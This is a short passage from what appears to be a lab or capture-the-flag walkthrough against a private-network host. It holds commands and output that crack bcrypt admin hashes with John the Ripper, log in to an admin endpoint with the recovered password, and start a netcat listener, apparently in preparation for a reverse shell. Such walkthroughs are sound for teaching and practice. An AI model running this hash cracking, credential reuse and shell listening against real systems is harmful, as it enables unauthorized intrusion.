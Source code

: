 <🔄 Alternative Step.>

`vim ./admin_hashes.txt`:
```
$2y$10$efDvenHYJ5Fu/xxt1ANbXuRx5/TuzNs/s4k6keUiiFvr2ueE0GmrG ←
$2y$10$DJbGDnA6bkOiS0TW08R5FOPruw0wRW4maShgWK8k6FlEfgNjbXsvm ←
```

`john --wordlist=/usr/share/wordlists/rockyou.txt ./admin_hashes.txt --format=bcrypt`:
```
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin123 (hadmin) ← 
staff (staff) ←
2g 0:00:19:18 DONE (2024–03–22 09:49) 0.001726g/s 111.3p/s 189.0c/s 189.0C/s super01..special123  
Use the " - show" option to display all of the cracked passwords reliably  
Session completed.
```

</🔄 Alternative Step.>

`curl -X POST "http://192.168.56.127/admin/ajax.php?action=login" -d "username=hadmin&password=admin123" -v`:
```
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 192.168.56.127:80...
* Connected to 192.168.56.127 (192.168.56.127) port 80
> POST /admin/ajax.php?action=login HTTP/1.1
> Host: 192.168.56.127
> User-Agent: curl/8.8.0
> Accept: */*
> Content-Length: 33
> Content-Type: application/x-www-form-urlencoded
> 
* upload completely sent off: 33 bytes
< HTTP/1.1 200 OK ←
< Server: nginx/1.18.0 (Ubuntu)
< Date: Mon, 07 Oct 2024 13:27:05 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< Set-Cookie: PHPSESSID=u1j8akv6tn8fa1udv3rsq3hctp; path=/ ←
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< 
* Connection #0 to host 192.168.56.127 left intact
1 ←
```

`nc -lnvp 4444`:
```        
listening on [any] 4444 ... ←
```
